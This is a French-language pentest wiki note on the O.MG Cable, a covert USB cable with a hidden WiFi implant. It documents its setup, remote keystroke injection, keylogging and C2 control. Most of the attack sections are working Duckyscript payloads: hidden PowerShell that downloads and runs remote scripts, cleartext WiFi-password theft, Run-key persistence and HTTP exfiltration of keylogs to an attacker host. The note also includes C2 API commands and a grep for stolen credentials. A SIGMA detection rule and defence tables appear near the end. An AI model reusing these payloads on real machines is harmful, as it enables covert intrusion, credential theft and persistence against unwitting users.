


# 🔌 O.MG Cable — Le câble espion discret (WiFi + HID)

> [!info] **En 1 phrase**
> Un câble de charge USB-C/Lightning parfaitement innocent… mais qui embarque un **implant WiFi** : injection clavier (Duckyscript), **keystroke logging**, exfiltration HTTP et console d'administration accessible sans fil.

---

## 🧾 Overview

| Champ | Valeur |
|---|---|
| Nom | O.MG Cable (O.MG Adapter, O.MG UnBlocker, O.MG Plug) |
| Type | Câble/adaptateur USB avec implant WiFi dissimulé |
| Usage | Injection HID à distance, keylogging, exfil, C2 |
| Tiers Basic (Gen 1) | Duckyscript 2, 8 slots payload, max 4 000 frappes, 120 touches/s |
| Tiers Elite (Gen 3) | Duckyscript 3, 50-300 slots, max 1 500 000 frappes, 890 touches/s |
| Fonctions communes | Injection souris, Self-Destruct, Geo-Fencing, WiFi Triggers, 192 keymaps |
| Elite uniquement | Keylogger matériel FullSpeed (650 000 frappes), HIDX StealthLink, C2 chiffré |
| Comportement dormant | Câble USB 2.0 normal : 480 Mbps data + 5 V charge, VID/PID/MAC spoofables |
| Activation | Livré désactivé (réglementation) → O.MG Programmer ou flasher Python |
| Longueur | 1 m (versions 2 m existantes) |
| Vecteur MITRE principal | T1200 (Hardware Additions), T1056.001 (Keylogging) |

L'O.MG Cable est l'arme du **déguisement physique** : fonctionnel pour charger et transférer, il n'éveille aucun soupçon jusqu'à ce que l'attaquant décide d'agir.

---

## 🎯 Concept

L'O.MG Cable (Hak5) est un **câble de chargement classique** dans lequel est dissimulé un module sans-fil complet (réseau WiFi configurable, console web, moteur Duckyscript). Il ressemble, se branche et fonctionne comme un câble normal — la cible n'a aucune raison de s'en méfier. Lorsqu'il est alimenté (sur un PC, une borne de charge, un téléphone), l'implant s'active : il crée un **réseau WiFi furtif** (SSID caché, chiffrement), sur lequel l'attaquant se connecte pour ouvrir la **console d'administration** (`http://cable.hid` ou l'app mobile). Depuis cette console, l'attaquant peut :
- déclencher une **injection de frappes** (Duckyscript 3.0) sur l'appareil branché → shell, malware, exfil ;
- activer le **keystroke logger** embarqué : toutes les frappes passent par le câble et sont enregistrées ;
- récupérer les logs **exfiltrés en HTTP** vers le C2 ;
- être « en bot » : plusieurs câbles rejoignent un réseau de commandement commun.

C'est l'arme du **déguisement physique** : contrairement à une clé BadUSB, rien ne distingue visuellement le câble d'un câble officiel. Il se place dans la phase **d'accès physique / ingénierie sociale** d'un test d'intrusion, en complément des BadUSB classiques (USB Rubber Ducky, Bash Bunny).



---

## 🧠 Concepts fondamentaux

| Notion | Détail |
|---|---|
| Implant WiFi | Module réseau + console web dissimulés dans le connecteur actif |
| Connecteur actif | Extrémité qui livre les payloads (USB-A ou USB-C, marquée discrètement) |
| Extrémité passive | La « caméra camouflage » : Lightning, Micro, USB-C (TPE ou Woven) |
| Console d'admin | WebUI sur `http://cable.hid` accessible par l'AP WiFi de l'implant |
| Dormant | Aucun log, aucune frappe tant qu'aucun payload n'est déclenché |
| Spoofing | VID/PID USB, identifiant USB étendu et MAC réseau modifiables |
| Keylogger matériel (Elite) | Capte les frappes d'un vrai clavier FullSpeed branché (câble détachable) |
| HIDX StealthLink (Elite) | Tunnel bidirectionnel Target → O.MG → Machine de contrôle |
| C2 chiffré (Elite) | Connexion réseau chiffrée vers un serveur Python ; WebUI désactivable |
| Self-Destruct | Efface les payloads et le loot, rend l'implant inerte (récupérable via Programmer) |
| O.MG Programmer | Accessoire obligatoire pour activer/désactiver/upgrader les appareils |

> [!note] À vérifier
> Les capacités listées « Elite » reposent sur le firmware beta le plus récent : vérifier les releases du dépôt O.MG-Firmware pour le matériel utilisé.

---

## 🛠️ Installation

```bash
# 1. Activer le câble (livré désactivé par réglementation) :
#    - O.MG Programmer (universel, tous appareils O.MG) + WebFlasher
#      (navigateur WebSerial : Chrome/Edge) — activation, upgrades, récupération
#    - Ou flasher Python alternatif : python flash.py (dépôt O.MG-Firmware)
# 2. Brancher le câble sur une alimentation (ou un appareil) : l'implant démarre
# 3. Scanner les réseaux WiFi : SSID par défaut "O.MG" (réseau caché au choix)
# 4. Se connecter puis ouvrir http://cable.hid (console d'administration)
#    - configurer le SSID / mot de passe du réseau d'administration
#    - activer la fente Keystroke injection (Duckyscript)
#    - paramétrer l'exfiltration HTTP (serveur C2)
#    - charger les payloads Duckyscript dans la bibliothèque
# 5. Déployer le câble sur la machine cible (remplacer un câble existant)
```

Mises à jour du firmware : passer par la console ou l'app mobile Hak5 ; ne jamais laisser un firmware de démo par défaut en engagement.

### Serveur C2 (Elite)

```bash
# Le dépôt O.MG-Firmware contient un serveur C2 Python (c2server/)
git clone https://github.com/O-MG/O.MG-Firmware
cd O.MG-Firmware/c2server
python3 -m pip install -r requirements.txt
python3 c2server.py --help
```

---

## ⚙️ Configuration

### Paramètres de la console (`http://cable.hid`)

| Paramètre | Description |
|---|---|
| SSID / mot de passe | Réseau WiFi d'administration (le changer depuis « O.MG » par défaut) |
| Réseau caché | Masquer le SSID pour limiter la détection par scan |
| Exfiltration HTTP | URL du C2 (`http://c2.local/keys`), fréquence d'envoi |
| Payload slots | Bibliothèque Duckyscript (8 en Basic, 50-300 en Elite) |
| Keystroke logger | ON/OFF + stockage local / poussée périodique |
| WiFi Triggers | Déclenchement d'un payload selon le réseau détecté |
| Geo-Fencing | Exécution conditionnelle selon la position |
| Self-Destruct | Armer la destruction des données et la mise en inertie |

### Commande de base (console web)

```bash
# Depuis la console : lancer un payload immédiatement sur l'appareil branché
# 1. Onglet "Keystroke Injection"
# 2. Sélectionner un slot payload (ou écrire dans l'IDE intégré)
# 3. Cliquer Run
```

---

## 🏗️ Architecture interne



- **MCU + radio** : l'implant est indépendant du câble de données — il s'alimente au branchement.
- **Dormant vs actif** : aucun trafic tant que l'attaquant ne se connecte pas à l'AP.
- **Keylogger (Elite)** : intercalé entre le clavier et le PC — capture passive des scancodes.
- **HIDX StealthLink (Elite)** : tunnel bidirectionnel pour piloter la cible sans WebUI.

---

## ⌨️ Commandes

```bash
# Payload Duckyscript stocké dans le câble : reverse shell Windows
REM Reverse shell déclenché à distance
DELAY 1000
GUI r
DELAY 400
STRING powershell -w hidden -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.20.15/x.ps1')"
ENTER
```

| Commande / action | Effet |
|---|---|
| `STRING <texte>` | Frappe un texte sur l'appareil branché |
| `DELAY <ms>` / `DEFAULT_DELAY <ms>` | Contrôle du tempo de frappe |
| `GUI r` / `ENTER` / `TAB` | Raccourcis clavier (Windows) |
| `ALT F2` / `STRING` | Raccourcis Linux |
| `CABLE.BLINK` / LED | Indique l'état de l'implant (LED réversible) |
| Mode **Keystroke Logger** | Enregistre toutes les frappes sur l'appareil branché |
| Mode **Exfil HTTP** | Pousse les logs / fichiers vers le C2 |
| Mode **Bot** | Le câble rejoint un réseau WiFi de commandement partagé |

---

## 🎚️ Options et flags

| Option | Description |
|---|---|
| `DELAY <ms>` | Pause avant/entre les frappes |
| `DEFAULT_DELAY <ms>` | Tempo global de frappe |
| `STRING` / `STRINGLN` | Saisie littérale ± ENTER |
| `ATTACKMODE` | Modes HID/STORAGE (compatibilité Bash Bunny) |
| Keymaps | 192 dispositions clavier embarquées (target world-wide) |
| `CABLE.BLINK` | Clignotement de la LED de l'implant |
| WiFi Triggers | Conditions réseau pour déclencher un payload |
| Geo-Fencing | Conditions géographiques (latitude/longitude) |
| Self-Destruct | Nettoyage des payloads/loot + inertie du module |
| Exfil rate | Fréquence de poussée des logs vers le C2 |

---

## 🧪 Exemples pratiques

### Basic — reconnaissance rapide du poste

```bash
REM Collecter l'identité de la machine et l'utilisateur
DELAY 800
GUI r
DELAY 400
STRING cmd /c "whoami & hostname & ipconfig /all"
ENTER
```

### Intermediate — vol de mot de passe Wi-Fi (Windows)

```bash
DELAY 800
GUI r
DELAY 400
STRING powershell -nop -w hidden -c "$p=(netsh wlan show profiles) | Select-String ':' | %{$_.ToString().Split(':')[1].Trim()}; foreach($n in $p){netsh wlan show profile $n key=clear}"
ENTER
```

### Advanced — persistance + masquage

```bash
DELAY 800
GUI r
DELAY 400
STRING powershell -w hidden -nop -c "New-ItemProperty HKCU:\Software\Microsoft\Windows\CurrentVersion\Run -Name Upd -Value 'powershell -w hidden -nop -c IEX((New-Object Net.WebClient).DownloadString(\"http://10.10.20.15/p.ps1\"))' -Force"
ENTER
```

---

## 🧪 Workflow complet (scénario pas à pas)

1. **Configuration du câble** — brancher l'O.MG sur une alimentation, rejoindre son AP, ouvrir `http://cable.hid` et régler SSID, exfil HTTP et payloads (Duckyscript).
2. **Déploiement** — remplacer le câble de charge de la cible ; le câble reste fonctionnel (charge + data) pour ne rien éveiller.
3. **Prise de contrôle** — depuis l'attaquant : déclencher l'injection via la console → exécution d'un reverse shell ou téléchargement d'un payload.
4. **Collecte** — activer le keystroke logger : les frappes (identifiants, mails, code) sont poussées en HTTP vers le C2.
5. **Dissimulation / maintien** — le câble reste branché : il continue de charger et de collecter ; récupérer les logs à volonté via le WiFi.

---

## 🎬 Scénarios avancés

### Scénario 1 : Injection HID à distance sur un poste branché

La victime branche son téléphone/PC pour charger ; l'attaquant, dans la zone, déclenche le payload depuis la console.

```bash
REM Ouvrir une session PowerShell furtive depuis le câble
DELAY 800
GUI r
DELAY 400
STRING powershell -w hidden -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.20.15/persist.ps1')"
ENTER
```

L'attaque est *remote-triggered* : le câble n'agit qu'à la commande, ce qui le rend quasi indétectable entre deux utilisations (aucune frappe, aucun trafic).

### Scénario 2 : Keystroke logger + exfiltration des identifiants

En mode logger, chaque frappe (login, mot de passe, message) est capturée par le câble puis poussée périodiquement.

```bash
# Configuration côté console :
#  - Keystroke logger: ON
#  - Exfil: HTTP -> http://10.10.20.15/keys
#  - Fréquence d'envoi: toutes les 60 s
```

L'intérêt de l'O.MG Cable est la **couverture longue durée** : la cible tape ses identifiants quotidiennement sur le câble qui se recharge, sans jamais brancher un gadget visible.

### Scénario 3 : Mode bot — plusieurs câbles sous commandement unique

```bash
# Chaque câble rejoint le même réseau WiFi d'administration
#  - un seul point de commandement pour toute la zone
#  - déploiement de payloads groupés : exfil, keylog, reboot
```

Permet de couvrir un open space entier avec un seul point de contrôle.

### Scénario 4 : C2 chiffré + WebUI désactivée (Elite)

```bash
# 1. Configurer le câble pour joindre un serveur C2 Python (c2server/)
# 2. Utiliser la connexion chiffrée pour contrôler l'implant
# 3. Désactiver la WebUI : l'implant ne répond plus aux scans web locaux
# 4. Pilotage via HIDX StealthLink (tunnel bidirectionnel)
```

---

## 🛡️ Cybersecurity use cases

| Use case | Description |
|---|---|
| Pentest physique | Déguisement : remplacer le câble d'un poste, keylog longue durée |
| Ingénierie sociale | Dépôt/échange de câble « trouvé » dans une zone autorisée |
| Red team | C2 distribué : plusieurs implants sous un réseau de commandement |
| Test de détection | Valider les contrôles HID, les scans WiFi et le DLP |
| Formation | Ateliers sur le risque des périphériques « innocents » |

---

## 🎯 MITRE ATT&CK

| Technique | ID | Exemple O.MG Cable |
|---|---|---|
| Hardware Additions | T1200 | Câble implanté sur le poste de la victime |
| Input Capture: Keylogging | T1056.001 | Keystroke logger matériel / logiciel du câble |
| Command and Scripting Interpreter: PowerShell | T1059.001 | Payload `powershell -w hidden -nop -c "..."` |
| Command and Scripting Interpreter: Windows Command Shell | T1059.003 | Commandes `cmd /c` frappées |
| Boot or Logon Autostart Execution | T1547.001 | Run key posée par injection |
| Application Layer Protocol | T1071 | Exfil/logs en HTTP vers le C2 |
| Exfiltration Over Physical Medium | T1052 | Données copiées via le câble |
| Ingress Tool Transfer | T1105 | Téléchargement d'outils sur la cible |

---

## 🛡️ Defensive Security

| Signe | Défense |
|---|---|
| Câble anormalement lourd / embout épaissi (module WiFi) | N'utiliser que des câbles fournis et sigillés ; tester/disséquer les câbles suspects |
| SSID WiFi inhabituel (« O.MG », réseau furtif) | Scans WiFi réguliers (Kismet, inSSIDer), détection d'AP inconnus |
| Frappe clavier non sollicitée après branchement | EDR comportemental HID, contrôle des périphériques USB |
| Câble qui chauffe / capteur visible sous la gaine | Inspection physique, « USB condom » (charge-only) entre câble et poste |
| Trafic HTTP vers une IP inhabituelle à partir de postes « en veille » | Supervision DNS/HTTP, DLP, réseau segmenté |

### Règle SIGMA (exemple)

```yaml
title: O.MG Cable keystroke injection / exfil pattern
id: 9c13f6d4-dddd-4e4e-8a8f-5b7c9d1e2f3a
status: experimental
logsource:
    product: windows
    service: powershell
detection:
    selection:
        EventID:
            - 4104
            - 4103
        ScriptBlockText|contains:
            - 'netsh wlan show profile'
            - 'Net.WebClient).DownloadString'
    condition: selection
falsepositives:
    - Administration Wi-Fi légitime
level: medium
```

> [!note] À vérifier
> Règle pédagogique : adapter au SIEM et à l'environnement.

---

## 🤖 Automatisation

```bash
# Script — lister et contrôler les implants depuis le C2 (exemple)
# (l'API du serveur C2 expose les slots/payloads)
curl -s http://10.10.20.15:8080/api/implants | jq '.[].serial'
curl -s -X POST http://10.10.20.15:8080/api/implants/OMG-0001/run \
  -d '{"slot": 1}'
```

```python
# Python — vérification du réseau d'administration (lab)
import subprocess
import json
networks = subprocess.run(["nmcli", "-f", "SSID", "device", "wifi", "list"],
                          capture_output=True, text=True).stdout
print("O.MG" in networks and "réseau furtif détecté" or "rien d'anormal")
```

---

## 📤 Output et parsing

Les résultats d'un O.MG sont les **logs de frappe**, les **screenshots/payloads** et les **réponses du C2**.

```bash
# Côté serveur C2 : écouter les exfil
# (le c2server/ du dépôt reçoit les clés/fichiers poussés en HTTP)
# Exemple de réception simple :
python3 -m http.server 8080
# puis consulter les POST reçus dans le dossier d'exfil configuré

# Analyse locale d'un dump de logs
grep -E "(user|login|password|token)" /var/exfil/keys-*.log | sort -u
```

---

## 🔗 Intégrations

- [[Tools|🧰 Outils]] global
- [[Outil - Bash Bunny]] / [[Outil - USB Rubber Ducky]] — écosystème Duckyscript
- [[Outil - Flipper Zero (USB & radio)]] — BadUSB poche (complément)
- [[Outil - WiFi Pineapple]] — scan de la zone et rogue AP
- [[Outil - Kismet]] / [[Outil - Wifite]] — détection des AP inconnus (côté défense)
- [[Techniques/Protocole USB]] — descripteurs HID, VID/PID
- [[Techniques/Attaques WiFi - Rogue AP]] — contexte AP rogue / MITM
- [[Techniques/Reverse Shells]] — payloads livrés par injection
- [O.MG-Firmware (GitHub)](https://github.com/O-MG/O.MG-Firmware) — firmware, C2, scripts

---

## 🔄 Alternatives

| Outil | Type | Points forts | Points faibles |
|---|---|---|---|
| **O.MG Cable** | Câble implant WiFi | Déguisement total, keylog longue durée, contrôle à distance | Coût, alimentation requise, régulation (activation) |
| O.MG Adapter / UnBlocker / Plug | Variantes implant | Formats différents (prise, chargeur) | Mêmes limites |
| [[Outil - Bash Bunny]] | Clé HID+NET | HID/STORAGE/RNDIS, double slot | Visible, pas de WiFi |
| [[Outil - USB Rubber Ducky]] | Clé HID | Simple, fiable | HID seul, pas de distance |
| [[Outil - Flipper Zero (USB & radio)]] | Gadget | Multi-vecteurs | Coût, pas d'implant discret |
| Key Croc (Hak5) | Keylogger réseau | Keylogging + LAN Tap | Moins discret qu'un câble |

---

## ⚡ Performance

- **Vitesse d'injection** : jusqu'à **890 touches/s** (Elite) vs 120 touches/s (Basic).
- **Capacité payload** : 4 000 frappes (Basic) à 1 500 000 (Elite, 300 slots).
- **Keylogger Elite** : stockage local jusqu'à **650 000 frappes**.
- **Portée WiFi** : étendue sur Elite (antenne améliorée) ; sinon ~10-30 m selon environnement.
- **Discrétion** : consommation optimisée (Elite) ; dormant = aucun log ni trafic.

---

## 🛠️ Troubleshooting

### Problème : l'implant ne démarre pas

- **Cause** : câble non alimenté (PC éteint, borne morte), pas encore activé.
- **Solution** : brancher sur une source d'alimentation active ; vérifier l'activation via l'O.MG Programmer.
- **Vérification** : LED de l'implant / scan WiFi du SSID.

### Problème : impossible de rejoindre `http://cable.hid`

- **Cause** : SSID modifié, réseau caché, navigateur non compatible (WebSerial pour l'activation uniquement).
- **Solution** : rescanner les réseaux, vérifier la config du SSID/du chiffrement.
- **Vérification** : `ipconfig /all` / `ip a` sur l'interface WiFi — adresse du genre `192.168.4.x`.

### Problème : le payload ne se déclenche pas sur la cible

- **Cause** : clavier occupé, fenêtre active incorrecte, timing USB.
- **Solution** : augmenter `DELAY`, vérifier la keymap, tester sur VM.
- **Vérification** : rejouer le payload dans l'IDE de la console.

### Problème : configuration WiFi cassée (accès perdu)

- **Cause** : SSID/mot de passe mal configurés.
- **Solution** : reconnecter via l'O.MG Programmer (récupération) ou reset usine.
- **Vérification** : le Programmer permet de reflasher sans accès réseau.

---

## 🔐 Sécurité de l'outil

- **Cadre légal** : l'implémentation d'un câble espion sur un poste tiers est intrusive — autorisation écrite impérative.
- **Réglementation** : les appareils sont livrés désactivés ; l'activation est un acte à documenter.
- **Données** : les logs de frappe contiennent des secrets (mots de passe, tokens) — RGPD, chiffrement, destruction après analyse (Self-Destruct).
- **Perte/vol** : un câble perdu en zone est une fuite et un indice — armer la Self-Destruct avant déploiement si possible.

---

## ⚠️ Limitations

- **Alimentation obligatoire** : sans USB alimenté (PC éteint, borne morte), l'implant est inerte.
- **Coût** : plus élevé qu'un BadUSB ; l'O.MG Programmer est requis pour l'activation.
- **Portée WiFi** : limitée sauf Elite (portée étendue).
- **Keylogger matériel** : réservé à l'Elite et aux claviers FullSpeed à câble détachable.
- **Détection physique** : un embout épaissi ou un câble qui chauffe peut être repéré (inspection physique).
- **Régulation** : activation/désactivation obligatoires selon la législation locale.

---

## 📋 Cheatsheet

| Action | Comment |
|---|---|
| Activer l'implant | O.MG Programmer + WebFlasher (ou `python flash.py`) |
| Accéder à la console | Joindre l'AP WiFi → `http://cable.hid` |
| Configurer le réseau | SSID personnalisé + réseau caché + chiffrement |
| Lancer un payload | Onglet Keystroke Injection → slot → Run |
| Keylogger | Activer dans la console + définir l'exfil HTTP |
| Mode bot | Pointer tous les câbles sur le même réseau d'admin |
| C2 (Elite) | Serveur Python `c2server/` + connexion chiffrée |
| Self-Destruct | Armer depuis la console (récupérable via Programmer) |
| Vérifier l'état | LED / `CABLE.BLINK` |

---

## ⚡ Quick reference

```bash
# Exemple : exfil rapide des identifiants Wi-Fi
DELAY 800
GUI r
DELAY 400
STRING powershell -nop -w hidden -c "$p=(netsh wlan show profiles) | Select-String ':' | %{$_.ToString().Split(':')[1].Trim()}; foreach($n in $p){netsh wlan show profile $n key=clear}"
ENTER
```

```bash
# Côté attaquant : écouter les exfil
python3 -m http.server 8080
```

---

## 🔍 Détection & Défense

| Signe | Défense |
|---|---|
| Câble anormalement lourd / embout épaissi (module WiFi) | N'utiliser que des câbles fournis et sigillés ; tester/disséquer les câbles suspects |
| SSID WiFi inhabituel (« O.MG », réseau furtif) | Scans WiFi réguliers (Kismet, inSSIDer), détection d'AP inconnus |
| Frappe clavier non sollicitée après branchement | EDR comportemental HID, contrôle des périphériques USB |
| Câble qui chauffe / capteur visible sous la gaine | Inspection physique, « USB condom » (charge-only) entre câble et poste |
| Trafic HTTP vers une IP inhabituelle à partir de postes « en veille » | Supervision DNS/HTTP, DLP, réseau segmenté |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Tips**
> - Le câble doit être **alimenté** pour que l'implant fonctionne : un PC éteint ou une borne morte neutralise l'attaque — vérifier l'état via la LED.
> - Utiliser le **SSID caché + chiffrement** et la console sur `http://cable.hid` pour rester discret dans la zone.
> - Varier les payloads et les fréquences d'exfil : un flux HTTP régulier et prévisible éveille les SOC.
> - Tester le timing HID sur chaque OS cible avant déploiement (vitesse d'énumération USB variable).
> - Le modèle Elite apporte le keylogger matériel et le C2 chiffré : choisir le tiers selon l'objectif.

> [!warning] ⚠️ **Pièges**
> - Ne PAS utiliser le câble comme câble « principal » de sa propre machine en mode logger : les logs concernent l'appareil branché, mais le réseau du câble reste visible (une victime curieuse peut rejoindre `cable.hid`).
> - Le keystroke logging enregistre **tout** (y compris les saisies d'auto-complétion et les mots de passe) : gérer les données collectées avec précaution (RGPD / périmètre autorisé).
> - Si le SSID « O.MG » est par défaut, une simple promenade en scan WiFi le révèle : le changer systématiquement avant déploiement.
> - Sur une machine en veille, l'USB n'est pas toujours alimenté : le payload peut ne se déclencher qu'au réveil.
> - Un câble livré « désactivé » qui n'a pas été activé via le Programmer est inerte : ne pas partir en engagement avec.

---

## 📚 References

> [!info] 📚 **Sources**
> - [Hak5 — O.MG Cable (docs)](https://docs.hak5.org/omg-cable/)
> - [Hak5 — O.MG Cable (boutique)](https://shop.hak5.org/products/omg-cable)
> - [GitHub — O-MG/O.MG-Firmware](https://github.com/O-MG/O.MG-Firmware)
> - [Site O.MG (achat)](https://o.mg.lol/)
> - [Bastille Wireless — research O.MG Cable](https://bastille.net/research/omg-cable/)

---

➡️ **Liens :** [[Tools|🧰 Outils]] · [[Techniques/Protocole USB|🔌 Protocole USB]] · [[Techniques/Attaques WiFi - Rogue AP|🎭 Rogue AP & MITM]]
